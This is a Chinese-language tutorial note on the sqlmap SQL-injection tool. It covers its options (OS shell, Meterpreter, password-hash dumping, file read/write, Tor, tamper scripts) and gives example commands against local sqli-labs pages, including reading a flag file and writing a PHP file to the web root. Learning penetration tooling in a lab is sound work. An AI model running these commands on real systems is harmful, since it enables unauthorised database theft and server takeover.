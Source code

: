 ```yaml
---
title: Sqlmap注入使用技巧总结
date: 2020-01-11 13:13:05
tags:
    - Sqlmap
    - SQL注入
    - 软件
categories:
    - 笔记总结
    - 软件运用
---
```


## 简介
Sqlmap是一种开源的渗透测试工具，可以自动检测和利用SQL注入漏洞以及接入该数据库的服务器。它拥有非常强大的检测引擎、具有多种特性的渗透测试器、通过数据库指纹提取访问底层文件系统并通过外带连接执行命令
支持的数据库：
> MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase and SAP MaxDB 

SQL注入技术：
> boolean-based blind, time-based blind, error-based, UNION query, stacked queries and out-of-band

枚举数据：
> users, password hashes, privileges, roles, databases, tables and columns

<!--more-->

## 快速上手
1. 对url进行检测，判断是否存在SQL注入
> sqlmap -u "url" --batch
2. 获取当前数据库
> sqlmap -u URL --current-db
3. 获取当前数据库里所有表
> sqlmap -u URL -D database --tables
4. 获取当前数据库表里的字段
> sqlmap -u URL -D database -T tablename --columns
5. 获取字段内容
> sqlmap -u URL -D database -T tablename -C columnsname --dump

## SQLMAP检测参数
```bash
--current-user      检索当前用户
--current-db        检索当前数据库
-is-dba 当前用户权限（是否为root权限）
-dbs 所有数据库
--users             列出用户列表
--passwords         列出用户密码的hash值
--os-shell          提示为交互式操作系统shell
--os-pwn            提示为OOB外壳，Meterpreter或VNC
--batch             永远不要要求用户输入，使用默认行为
--sql-shell         提示输入交互式sqlmap shell
请求:
    这些选项可用于指定如何连接到目标URL
    --data=DATA         数据字符串通过POST发送
    --cookie=COOKIE     HTTP Cookie的值
    --random-agent      随机选择 HTTP User-Agent 头的值
    --proxy=PROXY       使用代理去连接目标URL
    --tor               使用匿名网络
    --check-tor         检查Tor是否正确使用

File system access（访问文件系统）：
这些选项可以被用来访问后端数据库管理系统的底层文件系统。

    –file-read=RFILE 从后端的数据库管理系统文件系统读取文件
    –file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件
    –file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径

Optimization（优化）：
这些选项可用于优化SqlMap的性能。
    -o 开启所有优化开关
    –predict-output 预测常见的查询输出
    –keep-alive 使用持久的HTTP（S）连接
    –null-connection 从没有实际的HTTP响应体中检索页面长度
    –threads=THREADS 最大的HTTP（S）请求并发量（默认为1）

Injection（注入）：
这些选项可以用来指定测试哪些参数， 提供自定义的注入payloads和可选篡改脚本。
    -p TESTPARAMETER 可测试的参数（S）
    –dbms=DBMS 强制后端的DBMS为此值
    –os=OS 强制后端的DBMS操作系统为这个值
    –prefix=PREFIX 注入payload字符串前缀
    –suffix=SUFFIX 注入payload字符串后缀
    –tamper=TAMPER 使用给定的脚本（S）篡改注入数据

Detection（检测）：
这些选项可以用来指定在SQL盲注时如何解析和比较HTTP响应页面的内容。
    –level=LEVEL 执行测试的等级（1-5，默认为1）
    –risk=RISK 执行测试的风险（0-3，默认为1）
    –string=STRING 查询时有效时在页面匹配字符串
    –regexp=REGEXP 查询时有效时在页面匹配正则表达式
    –text-only 仅基于在文本内容比较网页

Techniques（技巧）：
这些选项可用于调整具体的SQL注入测试。
    –technique=TECH SQL注入技术测试（默认BEUST）
    –time-sec=TIMESEC DBMS响应的延迟时间（默认为5秒）
    –union-cols=UCOLS 定列范围用于测试UNION查询注入
    –union-char=UCHAR 用于暴力猜解列数的字符

Fingerprint（指纹）：
    -f, –fingerprint 执行检查广泛的DBMS版本指纹

Brute force（蛮力）：
这些选项可以被用来运行蛮力检查。
    –common-tables 检查存在共同表
    –common-columns 检查存在共同列
```

## 不同传参方式注入
### GET
> sqlmap -u <url>
### POST
1. 从抓取文件中检测
> sqlmap -r <filename>
2. 从指定参数检测
> sqlmap --data "uname=1&password=2" -p uname
3. 自动检测表单传入参数
> sqlmap -u "http://127.0.0.1/sqlilabs2/Less-11/" --forms --batch --threads 10 --current-db
### Cookies
> sqlmap -r <filename> --level 2
### PUT

## 常用参数
1. **-–batch** 默认选项运行
2. **--dbs** 爆破数据库
3. **-–technique** 指定sqlmap使用的检测技术
    - B:Boolean-based-blind （布尔型注入）
    - U:Union query-based （联合注入）
    - E:Error-based （报错型注入)
    - S:Starked queries （通过sqlmap读取文件系统、操作系统、注册表必须 使用该参数，可多语句查询注入）
    - T:Time-based blind （基于时间延迟注入）
4. * **-r** 读取抓包文件
5. * **-p** 需要检测的参数
6. * **--threads** 线程数
7. * **-data** 传入post参数（免去抓包）
* **--level** 

    level: 设置检测的方方面面和测试用例
        - 默认是1,会尝试POST和GET
        - 2:Cookie也会加入检测
        - 3:User-Agent和Referer也会检测, 更大的值会增加用例量

8. * **--user-agent** 指定User-Agent

9. * **--data** 指定请求的内容

10. * **--dbms** 指定后端数据库,给定后端数据库的类型可以减少减少无关的测试用例.

11. * **--fresh-queries** fresh-queries会忽略之前的查询结果,进行重新请求操作

12. * **--flush-session** flush-session会清空当前URL相关的session

## 实战案例

1. 读取flag.php文件内容
> sqlmap -u "http://127.0.0.1/sqlilabs2/Less-1/index.php?id=1" --file-read "E:\\flag.php"
2. 将mm.php写入目标网站根目录
> sqlmap -u "http://127.0.0.1/sqlilabs2/Less-7/index.php?id=1" --file-write "/home/bb/mm.php" --file-dest "E:\\mm.php" --batch
3. 默认参数的报错注入检测
> sqlmap -u "http://127.0.0.1/sqlilabs2/Less-7/index.php?id=1" --batch --dbs --threads 10 --technique E
> sqlmap -r 1.txt --batch --dbs --threads 100 --technique ES --level 3
4. 检测POST请求参数是否有注入点
> sqlmap -u "http://127.0.0.1/sqlilabs2/Less-7/index.php?id=1" --forms --dbs --batch
5. 使用多个tamper进行检测
> sqlmap -u "http://127.0.0.1/sqlilabs2/Less-7/index.php?id=1" --tamper "xx.py" --batch --dbs

## 参考文章
[官方地址](http://sqlmap.org)
[Github地址](https://github.com/sqlmapproject/sqlmap)
[中文使用说明](http://www.91ri.org/6775.html)
[sqlmap使用笔记](https://www.cnblogs.com/coder2012/p/3939703.html)
[sqlmap注入教程](https://www.cnblogs.com/ichunqiu/p/5805108.html)